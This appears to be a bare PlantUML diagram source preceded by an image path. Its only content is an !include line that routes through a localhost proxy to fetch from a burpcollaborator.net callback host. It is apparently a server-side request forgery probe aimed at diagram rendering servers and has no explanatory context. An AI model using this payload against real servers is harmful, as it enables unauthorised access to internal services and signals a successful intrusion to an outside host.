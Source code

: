 @startuml
[Component] as C
note bottom of C   
!include http://127.0.0.1:8080/proxy?idx=0&fmt=epstext&src=http://4z49gk3db8fh5p52mwnnvyxvkmqde2.burpcollaborator.net/epstextttttt
end note
@enduml
